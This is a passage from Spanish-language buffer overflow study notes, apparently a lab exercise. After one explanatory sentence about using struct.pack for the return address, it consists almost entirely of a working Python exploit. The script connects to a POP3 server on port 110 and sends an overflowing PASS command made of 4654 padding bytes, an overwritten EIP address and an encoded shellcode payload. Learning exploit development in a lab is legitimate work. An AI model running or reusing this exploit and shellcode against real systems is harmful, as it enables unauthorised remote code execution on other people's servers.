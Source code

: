 Esto en el script lo hacemos de manera **automática** importando la librería ``pack`` de ``struct`` quedando todo de esta forma.

![[BOF 25.png]]

```python
 #!/usr/bin/python3
 
 from struct import pack
 import socket
 import sys
 
 # Variables globales. 
 ip_address = "192.168.0.120"
 port = 110
 offset = 4654
 
 before_eip = b"A"*offset
 eip = pack("<L", 0x5f4bcc6b)
 
shellcode = (b"\xdd\xc6\xbd\xb7\x06\x6c\xcb\xd9\x74\x24\xf4\x58\x2b\xc9"
b"\xb1\x52\x31\x68\x17\x83\xe8\xfc\x03\xdf\x15\x8e\x3e\xe3"
b"\xf2\xcc\xc1\x1b\x03\xb1\x48\xfe\x32\xf1\x2f\x8b\x65\xc1"
b"\x24\xd9\x89\xaa\x69\xc9\x1a\xde\xa5\xfe\xab\x55\x90\x31"
b"\x2b\xc5\xe0\x50\xaf\x14\x35\xb2\x8e\xd6\x48\xb3\xd7\x0b"
b"\xa0\xe1\x80\x40\x17\x15\xa4\x1d\xa4\x9e\xf6\xb0\xac\x43"
b"\x4e\xb2\x9d\xd2\xc4\xed\x3d\xd5\x09\x86\x77\xcd\x4e\xa3"
b"\xce\x66\xa4\x5f\xd1\xae\xf4\xa0\x7e\x8f\x38\x53\x7e\xc8"
b"\xff\x8c\xf5\x20\xfc\x31\x0e\xf7\x7e\xee\x9b\xe3\xd9\x65"
b"\x3b\xcf\xd8\xaa\xda\x84\xd7\x07\xa8\xc2\xfb\x96\x7d\x79"
b"\x07\x12\x80\xad\x81\x60\xa7\x69\xc9\x33\xc6\x28\xb7\x92"
b"\xf7\x2a\x18\x4a\x52\x21\xb5\x9f\xef\x68\xd2\x6c\xc2\x92"
b"\x22\xfb\x55\xe1\x10\xa4\xcd\x6d\x19\x2d\xc8\x6a\x5e\x04"
b"\xac\xe4\xa1\xa7\xcd\x2d\x66\xf3\x9d\x45\x4f\x7c\x76\x95"
b"\x70\xa9\xd9\xc5\xde\x02\x9a\xb5\x9e\xf2\x72\xdf\x10\x2c"
b"\x62\xe0\xfa\x45\x09\x1b\x6d\xaa\x66\x23\xaf\x42\x75\x23"
b"\x2e\x28\xf0\xc5\x5a\x5e\x55\x5e\xf3\xc7\xfc\x14\x62\x07"
b"\x2b\x51\xa4\x83\xd8\xa6\x6b\x64\x94\xb4\x1c\x84\xe3\xe6"
b"\x8b\x9b\xd9\x8e\x50\x09\x86\x4e\x1e\x32\x11\x19\x77\x84"
b"\x68\xcf\x65\xbf\xc2\xed\x77\x59\x2c\xb5\xa3\x9a\xb3\x34"
b"\x21\xa6\x97\x26\xff\x27\x9c\x12\xaf\x71\x4a\xcc\x09\x28"
b"\x3c\xa6\xc3\x87\x96\x2e\x95\xeb\x28\x28\x9a\x21\xdf\xd4"
b"\x2b\x9c\xa6\xeb\x84\x48\x2f\x94\xf8\xe8\xd0\x4f\xb9\x09"
b"\x33\x45\xb4\xa1\xea\x0c\x75\xac\x0c\xfb\xba\xc9\x8e\x09"
b"\x43\x2e\x8e\x78\x46\x6a\x08\x91\x3a\xe3\xfd\x95\xe9\x04"
b"\xd4")
 
 payload = before_eip + eip + shellcode 
 
 
 def exploit():
 
     s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
     s.connect((ip_address, port))
     banner = s.recv(1024)
 
     s.send(b"USER test" + b'\r\n')
     response = s.recv(1024) 
     s.send(b"PASS " + payload + b'\r\n')
     s.close()
 
 if __name__ == '__main__':
 
     exploit()
```